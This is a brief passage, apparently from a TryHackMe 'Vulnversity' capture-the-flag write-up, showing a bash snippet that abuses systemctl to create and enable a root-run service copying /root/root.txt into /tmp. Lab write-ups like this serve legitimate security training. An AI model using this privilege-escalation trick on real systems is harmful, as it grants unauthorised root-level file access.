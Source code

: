 ```bash
flag=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/flag.txt"
[Install]
WantedBy=multi-user.target' > $flag
/bin/systemctl link $flag
/bin/systemctl enable --now $flag
```

![Untitled](</assets/images/thm/Vulnversity/Untitled 22.png>)

***

